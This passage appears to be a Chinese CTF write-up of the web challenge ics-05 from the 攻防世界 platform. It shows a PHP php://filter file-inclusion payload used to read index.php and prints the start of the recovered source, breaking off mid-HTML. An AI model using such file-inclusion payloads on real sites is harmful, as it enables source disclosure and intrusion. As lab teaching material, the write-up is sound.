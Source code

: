 ```yaml
---
title: 攻防世界web高手进阶区(二)
date: 2022-07-07 17:39:54
tags: 
      - Web
categories:
      - [Web]
      - [CTF]
---
```


![image-20220707180845375](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071808494.png?x-oss-process=hzy)



# ics-05

> 其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统

- 文件包含
- XFF

![image-20220626130518839](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730509.png?x-oss-process=hzy)

点云平台设备维护中心，可以看到payload发生变化

![image-20220626130627380](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730498.png?x-oss-process=hzy)

利用php伪协议查看源码，转义得到源码

```
?page=php://filter/read=convert.base64-encode/resource=index.php
```

```
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
```